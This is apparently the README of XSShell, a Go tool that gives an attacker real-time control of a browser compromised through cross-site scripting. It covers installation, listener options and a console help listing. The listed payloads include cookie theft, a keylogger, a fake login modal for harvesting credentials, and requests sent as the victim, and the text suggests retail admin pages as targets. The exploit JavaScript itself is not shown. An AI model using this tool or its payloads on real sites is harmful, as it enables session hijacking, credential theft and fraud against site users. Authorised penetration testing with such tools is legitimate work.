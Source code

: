 XSShell
=======

XSShell is a cross-site-scripting reverse shell... Okay, well maybe it's not a true reverse shell, but it will allow you to interact in real time with an XSS victim's browser.

Just run the xsshell binary to setup your listener endpoint, do your XSS thing to get the exploit js onto the victim's browser, and as soon as they run it you should see something like this popup in your console:

```
====== start socket: 1, header: AmaaKrM= ======
socket connected: 1
    user agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36 Edge/17.17134 
    page url:   http://example.com/ 
    referrer:   http://google.com/
    cookies:    phpsessid=abababababababab
======   end socket: 1, header: AmaaKrM= ======
```

Once you have a connection you can execute any javascript file you want on the browser, and have that script return data to your console. This may not seem very useful at first, but it allows you to be more tactical and react in real time to the environment that the script is running on. Environments like say... an admin page used to approve and manage orders placed on a retail site :)

XSShell also comes with a number of premade XSS payloads to use:

- \alert - send a js alert message
- \cs    - get cookies and any updates to the cookies
- \gi    - download all images on the page
- \kl    - key logger
- \ll    - list all links on the page
- \src   - download the current page source
- \pfl   - show the user a modal and prompt them to login
- \xhr   - make xhr requests in the context of the victim's browser

Install
-------

To install xsshell run:
```bash
go get github.com/raz-varren/xsshell
go install github.com/raz-varren/xsshell
```

Mods
------

If you modify any of the JS files in this package, make sure you run:
```bash
go generate github.com/raz-varren/xsshell...
go install github.com/raz-varren/xsshell
```

This will ensure that the updated files are packed into the binary.

Usage
-----

The xsshell command:
```
xsshell -h
Usage of xsshell:
  -cert string
    	ssl cert file
  -host string
    	websocket listen address
  -key string
    	ssl key file
  -log string
    	specify a log file to log all console communication
  -path string
    	websocket connection path (default "/s")
  -port string
    	websocket listen port (default "8234")
  -servdir string
    	specify a directory to serve files from. a file server will not be started if no directory is specified
  -servpath string
    	specify the base url path that you want to serve files from (default "/static/")
  -wrkdir string
    	working directory that will be used as the relative root path for any commands requiring user provided file paths (default "./")
```

Starting the shell console:
```
xsshell
listening for sockets on :8234, at url path: /s
starting console
xsshell >   
xsshell > \?
xsshell > \? \h \help: list available commands
xsshell > \alert:      send an alert message to the target set
xsshell > 	usage: \alert ALERT_MESSAGE
xsshell > \cs:         get the current cookies from the target set's current page and any cookie updates.
xsshell > \ex:         print out the client exploit javascript
xsshell > \exm:        print out the minified version of the client exploit javascript
xsshell > \gi:         download all images on the target set's page. images will be stored in DOWNLOAD_DIR. relative file paths are relative to the path provided to -wrkdir
xsshell > 	usage: \gi [DOWNLOAD_DIR]
xsshell > 	examples:
xsshell > 		\gi
xsshell > 		\gi /tmp/images
xsshell > 		\gi imgdir
xsshell > \kl:         start a keylogger on the target set
xsshell > \ll:         list out any links found on the target set's currently open page
xsshell > \pfl:        open a modal on the target set's page prompting them for a username and password
xsshell > \ps:         print out socket info for all actively connected websockets
xsshell > \q:          exit this program
xsshell > \sf:         send a javascript file to the target set and execute it. any data can be returned from the target set by calling `this.send("return data string");` in the script. relative file paths are relative to the path provided to -wrkdir
xsshell > 	usage: \sf FILE_PATH
xsshell > \sfl:        resend the last file that was sent using \sf, includes any new changes to the file
xsshell > \src:        get the target set's currently rendered page source
xsshell > \st:         set the websockets to target. one or more targets can be set with the following methods:
xsshell > 	*        -targets all active websocket connections (default target set)
xsshell > 	8        -target a single websocket connection belonging to that id number
xsshell > 	1,2,8,10 -targets all websocket IDs in the comma separated list
xsshell > 	4-16     -targets all websocket IDs from the lowest number listed to the highest number listed
xsshell > 	4-       -targets all websocket IDs that are greater than or equal to the listed number
xsshell > 	-16      -targets all websocket IDs that are less than or equal to the listed number
xsshell > 	usage: \st TARGET_SET
xsshell > 	examples:
xsshell > 		\st *
xsshell > 		\st 2
xsshell > 		\st 2,4,7
xsshell > 		\st 10-15
xsshell > 		\st 6-
xsshell > 		\st -100
xsshell > \xhr:        send an xhr request from the target set's current page
xsshell > 	usage: \xhr HTTP_METHOD FULL_URL [CONTENT_HEADER] [POST_BODY]
xsshell > 	examples:
xsshell > 		\xhr GET https://google.com/
xsshell > 		\xhr POST https://google.com/ application/json {"hello": "world"}
xsshell >
```

